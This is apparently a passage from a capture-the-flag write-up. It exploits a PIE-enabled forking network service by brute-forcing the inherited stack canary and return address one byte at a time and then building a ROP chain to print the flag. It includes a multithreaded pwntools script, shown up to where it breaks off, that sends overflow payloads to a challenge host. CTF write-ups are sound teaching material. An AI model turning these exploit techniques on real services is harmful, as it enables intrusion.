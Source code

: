 `PIE` is enabled, so we don't know where the binary is located in the memory.

But, what is interesting about `fork` is:

> The child process created by `fork` will inherit stack canary value and memory space of the parrent process.

Knowing this, we will brute-force one-byte each time to get the canary, and the return address on the stack. After that, we can make a `rop chain` like this:

```
- pop_rdi
- socket_fd
- pop_rsi
- &"./flag.txt"
- call printFlag
```

To make the bruteforce process faster, we will need to use `multithread`.

```python
#!/usr/bin/python3
from pwn import *
from sys import argv
import threading
p = 0

success = 0
def brute_thread(ra):
	global success
	for i in ra:
		if success != 0:
			break
		p = remote('eight.jh2i.com', 50023)
		p.recvuntil('QUIT\n')
		payload = b'A'*56+b'\x00\x73\x01\xAE\x3D\x63\x31\x50'+\
					b'\xA0\x02\xB3\xED\xFD\x7F\x00\x00'+\
					b'\xC4\x8D\xB7\x1F\x7E\x55'+bytes([i])
		p.send(payload)
		try:
			l = len(p.recvuntil('QUIT\n',timeout=1))
			if l > 0:
				log.info('Success, i = 0x%X' % i)
				success = 1
				break
			p.close()
		except:
			p.close()

def brute():
	n = 32
	each = 256//n
	thread_list = []
	for i in range(n):
		th = threading.Thread(target=brute_thread,\
							  args=(range(each*i,each*i+each),))
		thread_list.append(th)
	for i in thread_list:
		i.start()
	for i in thread_list:
		i.join()

def main():
	global p
	pop_rdi = 0x1103
	pop_rsi_r15 = 0x1101
	p = remote('eight.jh2i.com', 50023)
```